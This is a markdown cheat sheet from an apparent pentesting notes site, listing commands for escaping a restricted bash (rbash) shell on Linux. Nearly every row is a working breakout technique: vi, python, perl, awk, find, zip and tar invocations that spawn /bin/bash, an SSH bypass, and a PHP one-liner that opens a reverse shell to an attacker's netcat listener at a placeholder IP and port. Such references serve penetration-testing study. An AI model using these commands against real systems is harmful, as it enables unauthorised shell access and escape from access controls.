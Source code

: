 # Linux PrivEsc CheatSheet
[Home](../../index.md) | [CheatSheets](../../cheatsheets.md) | [About](../../about.md)

## Restricted Bash Shell Breakout:
                                                                	|
| Command                                                                                           	| Notes                                                                                                                                    	|
|---------------------------------------------------------------------------------------------------	|------------------------------------------------------------------------------------------------------------------------------------------	|
| $SHELL                                                                                            	| Determine if we are in an rbash shell (/bin/rbash)                                                                                       	|
| ssh user@ip -t "bash --noprofile"                                                                 	| Bypass rbash if we can use SSH along with a known username and password                                                                  	|
| vi<br>:set shell=/bin/bash<br>:shell                                                              	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br>                               	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'                            	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell.                                             	|
| awk 'BEGIN {system("/bin/bash")}'                                                                 	| Escape rbash using AWK                                                                                                                   	|
| perl -e 'system("/bin/bash");'                                                                    	| Use PERL to escape rbash and spawn a bash shell                                                                                          	|
| find / -name test -exec /bin/sh or /bin/bash \;                                                   	| Use the find command to execute the /bin/bash binary                                                                                     	|
| cp /bin/bash .                                                                                    	| Copy the /bin/bash binary to your current directory, this only works if / is allowed.                                                    	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"                                  	| Use the zip command to spawn a bash shell, create a zip file first using touch.                                                          	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash                       	| Use the tar command to execute the bash binary upon archive creation.                                                                    	|
